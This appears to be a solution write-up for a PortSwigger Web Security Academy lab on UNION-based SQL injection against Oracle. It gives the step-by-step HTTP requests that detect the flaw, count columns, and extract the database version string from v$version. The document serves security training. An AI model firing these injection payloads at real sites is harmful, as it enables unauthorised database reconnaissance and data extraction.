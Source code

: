 # [Lab: SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

## Lab

This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

Hint:

On Oracle databases, every SELECT statement must specify a table to select FROM. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.

There is a built-in table on Oracle called dual which you can use for this purpose. For example: UNION SELECT 'abc' FROM dual

For more information, see our SQL injection cheat sheet.

## Solutions

1. Detect SQLi:

    - `GET /filter?category=' HTTP/1.1`

    ```http
    HTTP/1.1 500 Internal Server Error
    ```

2. Determining the number of columns using `ORDER BY`:
    - positions: `GET /filter?category='+ORDER+BY+§1§-- HTTP/1.1`
    - payloads: 1 -> 10
    - result: 2 columns
3. Finding a column containing text:

    ```http
    GET /filter?category='UNION+SELECT+'s','s'+FROM+dual-- HTTP/1.1`
    ```

    - => both columns contain text

4. from [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), to get the version of oracle database:

    - `SELECT banner FROM v$version`
    - `SELECT version FROM v$instance`

5. Exploit:

    ```http
    GET /filter?category='UNION+SELECT+banner,NULL+FROM+v$version-- HTTP/1.1`
    ```

    => Lab Solved

## References

- <https://www.oracletutorial.com/oracle-basics/oracle-dual-table/>
